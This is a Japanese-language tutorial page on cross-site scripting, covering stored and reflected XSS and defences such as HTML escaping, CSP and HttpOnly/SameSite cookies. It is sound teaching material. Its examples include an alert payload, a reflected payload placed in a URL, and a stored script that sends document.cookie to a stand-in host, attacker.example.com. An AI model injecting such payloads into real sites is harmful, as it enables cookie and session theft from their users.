 ```yaml
---
title: "XSS (Cross-Site Scripting)"
draft: false
weight: 999
---
```


XSS攻撃は、攻撃者が悪意あるスクリプトをユーザに実行させるものです。
攻撃対象のサイトにアクセスしたユーザの cookie 情報を漏洩させたり、Web ページを改ざんすることができます。

## 持続型 XSS（stored）

持続型 XSS は、攻撃用の JavaScript が攻撃対象のサイトに保存されているタイプの XSS です。
攻撃者の悪意ある入力がデータベースに保存され、他のユーザがサイトにアクセスした際に実行されます。

例えば、チャットアプリで攻撃者が次のように投稿するとします。

```html
<script>alert("Hacked!");</script>
```

エスケープなどの適切な処理をされていない場合、ユーザがチャットアプリにアクセスして攻撃者の投稿を表示すると、上記の script が実行されます。`alert` だけであれば問題は少ないかもしれませんが、以下のような script にすれば cookie を攻撃者に送信することができてしまいます。

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://attacker.example.com/steal-data", true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send("cookie=" + document.cookie);
</script>
```

## 反射型 XSS（reflected）

反射型 XSS は、攻撃用の JavaScript が攻撃対象のサイトに保存されていないタイプの XSS です。持続型 XSS と比べて影響範囲は限定的となります。

例として、攻撃者が偽サイトのリンクやメール、SNS の URL に次のようなリンクを仕込んでおく場合を考えます。

```html
https://victim.example.com/search?q=<script>alert('Hacked!');</script>
```

攻撃対象のサイトでパラメータを適切に処理していないと、script が実行されてしまう場合があります。
先程の例と同様、実行されるのが `alert` とは限らない点が問題です。

偽サイトの中に `iframe` で攻撃対象のサイトを埋め込んでおいてセッション ID を盗む例や、フォームの入力欄の XSS 脆弱性を利用して攻撃者に情報を送信するように改ざんしたフォームに書き換える方法などもあります。

## 対策

XSS 脆弱性が発生する主な要因は、HTML 生成時に特殊記号をエスケープする処理が抜けていることです。
根本的な対策としては、`<p>text</p>` の `text` や `<input name="foo" value="val">` の `val` のような要素内容や属性値内の特殊記号を、以下の表に示すようにもれなくエスケープする必要があります。

| 特殊記号 | エスケープ |
| -------- | ---------- |
| \<        | `&lt;`     |
| >        | `&gt;`     |
| &        | `&amp;`    |
| "        | `&quot;`   |
| '        | `&#39;`    |

さらに、以下の対策を行うと良いです。

- Webサーバの設定でXSSフィルタを有効にするレスポンスヘッダを返す
  - Content Security Policy (CSP): サーバのレスポンスヘッダによって制御され、外部コンテンツの読み込みやスクリプトの実行などを制限するためのセキュリティポリシー
  - X-XSS-Protection: 古いブラウザでは実装が異なるか、またはサポートされていないことがあるため、現在は非推奨とされており、CSPが推奨される
- 入力値のサニタイズを行う（例：数字のみ、英字のみ、文字制限）
- Cookieの設定を工夫する
  - HttpOnly: JavaScriptでCookieを読めなくする設定
  - SameSite: 異なるドメインからのリクエストでCookieを読めなくする設定。制限の種類があるため、使用時には適切なものを選択する必要がある

## 参考

- 徳丸 浩、「体系的に学ぶ 安全なWebアプリケーションの作り方 第2版」
